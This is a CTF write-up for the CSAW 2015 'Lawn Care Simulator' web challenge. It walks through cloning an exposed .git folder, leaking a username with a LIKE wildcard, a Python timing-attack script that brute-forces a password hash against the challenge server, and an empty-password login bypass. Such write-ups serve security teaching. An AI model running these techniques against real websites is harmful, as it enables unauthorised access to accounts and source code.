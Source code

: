 ```yaml
---
layout: post
title: CSAW CTF Qualification Round 2015 - Lawn Care Simulator
---
```


A game that you can click to grow your grass! Neat! Well let us take a look around shall we? If you take a look at the source code under the premium section there is an interesting JS segment:

```html
function init(){
    document.getElementById('login_form').onsubmit = function() {
        var pass_field = document.getElementById('password'); 
                pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
        };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

An ajax request is being made to the .git/refs/heads/master file. This indicates that the version is the commit hash being pulled from this master head file. What is interesting to us though is that this website appears to be hosted directly from a folder containing git information. Well let's try cloning it:

```bash
web200$ git clone http://54.175.3.248:8089/.git
Cloning into '8089'...

web200$ ls ./8089
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Wow, well we just stole their source code using git :D. Now that we have the source code we can proceed to look for vulnerabilities. If we take a look at `sign_up.php` we see where POST requests are processed:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST'){
    require_once 'db.php';
    $link = mysql_connect($DB_HOST, $SQL_USER, $SQL_PASSWORD) or die('Could not connect: ' . mysql_error());
    mysql_select_db('users') or die("Mysql error");
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
}
```

Can you spot the issue? They're calling `$user = mysql_real_escape_string($_POST['username']);` so this is not vulnerable to SQL injection. If we proceed further we do see: `$query = "SELECT username FROM users WHERE username LIKE '$user';";`. Wildcards **%** are not escaped, and as you can see the username is echoed back to us in full when not available: `echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";` so we can do: **%a%** which yields: 

```
Username: ~~FLAG~~ is not available
```

Great! Now we have a username to use. Now let's see how the login page is being processed and how we can gain access. `validate_pass.php` is the file that is validating our password on login, again it appears that they are protecting against SQL injection using `mysql_real_escape_string()` and the hash associated with the user is being selected from a row returned for this user from the DB: `$hash = $line['hash'];`. A length check then a while loop is used to compare each character of our supplied hash (JS performs MD5 conversion on submission):

```php
  if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
```

In an attempt to mitigate brute force attacks `usleep(300000);` is performed. This is done on every iteration of the character checks, which can be used as an indicator that a correct hash character has been guessed. The result being that the hash in its entirety can be brute forced:

```python
import urllib
import time

alphabet = "0123456789abcdefABCDEF"

correct = 0
#PWD = '667e217666AAAAAAAAAAAAAAAAAAAAAA'
PWD = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

def test_password(PWD):
    params = urllib.urlencode({'username': '~~FLAG~~', 'password': PWD})
    start = time.time()
    f = urllib.urlopen("http://54.175.3.248:8089/premium.php", params)
    received = f.read()
    end = time.time()
    return end - start

for i in range(0,32):
    max_time = []
    time_taken = []
    for c in alphabet:
        templist = list(PWD)
        templist[i] = c
        PWD = "".join(templist)
        diff = test_password(PWD)
        time_taken.append(diff)
        #print "PWD: " + PWD + " - " + str(diff)
        if not max_time:
            max_time = [diff, c]
        else:
            if diff > max_time[0]:
                max_time = [diff, c]
        time.sleep(0.5)


    templist = list(PWD)
    templist[i] = max_time[1]
    PWD = "".join(templist)
    print "%d - %s %r" % (i, PWD, time_taken)
``` 

We also noticed that only 10 of the valid hash characeters were needed to login correctly. Shortly after we also discovered a simpler route, which was to supply a non-existing username and a blank password parameter to the `validate($user, $pass)` function. The reason this works is that the row fetched returns an empty string, which provides an empty hash. The length comparison `if (strlen($pass) != strlen($hash))` is valid, and since there are no characters are checked the while loop never occurs, which returns true, logging us in and yielding: `flag{gr0wth__h4ck!nG!1!1!}`


